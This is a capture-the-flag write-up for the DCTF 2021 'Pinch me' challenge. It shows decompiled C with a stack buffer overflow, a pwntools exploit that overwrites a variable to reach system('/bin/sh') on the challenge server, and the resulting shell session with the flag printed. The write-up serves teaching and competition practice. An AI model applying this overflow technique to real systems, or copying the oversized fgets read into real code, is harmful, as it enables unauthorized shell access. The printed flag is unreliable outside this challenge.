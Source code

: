# DCTF 2021

## Pinch me

> 100
> 
> This should be easy! 
> 
> `nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480`
>
> [pinch\_me](pinch_me)

Tags: _pwn_ _x86-64_ _bof_ _variable-overwrite_


## Summary

Overwrite a variable to get a shell.


## Analysis

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_28 [24];
  int local_10;
  int local_c;
  
  local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}
```

`fgets` will accept up to `100` bytes overwriting `local_10`.  To get a shell, set `local_10` to `0x1337c0de`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./pinch_me')

if args.REMOTE:
    p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

payload  = b''
payload += (0x28 - 0x10) * b'A'
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```

Should be obvious how this works.  If confused by `0x28 - 0x10`, then look at the Ghidra stack diagram.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/pinch_me/pinch_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
Am I dreaming?
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
```
